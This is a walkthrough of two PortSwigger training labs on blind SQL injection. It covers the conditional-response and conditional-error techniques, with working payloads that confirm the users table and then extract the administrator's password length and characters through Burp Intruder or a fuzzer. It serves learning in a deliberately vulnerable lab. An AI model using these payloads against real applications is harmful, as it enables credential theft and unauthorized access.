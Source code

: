 
## LAB - 11
**lab link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>**

 **Topic :-** 

- Blind SQL injection with conditional responses.


 **To Solve :-**

- Log in as the `administrator` user.

 **Procedure :-**

1. Open the page in burp suite , and send any page containing "track id" to repeater.
2. Send the request with as it is track id, you will get "welcome back" in response. but if you change the id even a little, it will not return a "welcome back" in response.
3. Try with true cond with track id like ` ' and 1=1 --`, it will return "welcome back" in response . but if with false cond like ` ' and 0=1 --`, it will not return with "welcome back" response.
4. Now finding the table named "users" using ` ' and ( SELECT 'x' FROM users LIMIT 1)='x' --`, it return with "Welcome back" msg , means the database contain the "users" table.
5. Now if the admin is in users table or not, ` ' and ( SELECT username FROM users where username='administrator')='administrator' --`.
6. Now to find the length of admin password using ` ' and ( SELECT username from users where username='administrator' and LENGTH(password)>1)='administrator'--`, iterate it untill the length is found using intruder. at "20" the length of response changes means that the "welcome back" msg didnt return, meaning that length of password is "20".
7. Now to find the password after iterating the every single char of password, ` ' and (select substr(password,1,1) from users where username='administrator')='a' -- ` use intruder or zap's fuzzer, and iterate `1` and `a`, and you can find the password after putting together the chars.
8. Then login with admin credential.


## LAB - 12
**lab link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>**

 **Topic :-** 

- Blind SQL injection with conditional errors.

 **To Solve :-**

- Log in as the `administrator` user.

 **Procedure :-**

1. Open any page in zap with "track id" .
2. Try using `'` after track id, it will cause an internal error .but if `''` is used , it will not cause any error.
3. Now checking if there is vuln using ` ' || ( select '' from dual ) || ' `, it will not cause any error.
4. Now check if there is users table using ` ' || (select '' from users where rownum=1) || ' `, it will not cause any error means it has users table.
5. Now check if there is an admin or not using ` ' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' ) || ' ` which causes an error , means admin exist . if we change username it will not causes an error means that username does not exist.
6. Now to find the password length, ` ' || (SELECT CASE when (1=1) then TO_CHAR(1/0) else '' END FROM users where username='administrator' and LENGTH(password)>1) || ' `, iterate it untill until you find the length of password using fuzzer. it shows that it return error till 20 means the length of password is 20.
7. Now we have to find whole password by iterating each char, ` ' || ( select case when (1=1) then TO_CHAR(1/0) else '' end from users where username='administrator' and substr(password,1,1)='a') || '`, using the fuzzer, the correct ones are the one which causing the errors.
8. Then login with the admin credential.
